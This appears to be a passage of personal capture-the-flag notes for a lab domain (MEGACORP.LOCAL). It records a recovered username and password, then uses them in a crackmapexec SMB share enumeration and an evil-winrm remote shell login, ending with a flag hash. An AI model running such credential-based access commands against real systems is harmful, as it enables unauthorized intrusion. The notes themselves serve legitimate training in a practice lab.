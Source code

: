 Salute we got a initial access i think so
```
MEGACORP.LOCAL\tushikikatomo:finance1 
```

User
```
tushikikatomo
```

Password
```
finance1 
```


```
crackmapexec smb 10.10.10.179 -u 'tushikikatomo' -p 'finance1' --shares
```
![[Pasted image 20240924040150.png]]

Let's get the initial access as it's time for Evil-winrm
```
evil-winrm -u 'tushikikatomo' -p 'finance1' -i 10.10.10.179
```

![[Pasted image 20240924040538.png]]

```
5e190d5ee99842b7a37896bad63f948b
```
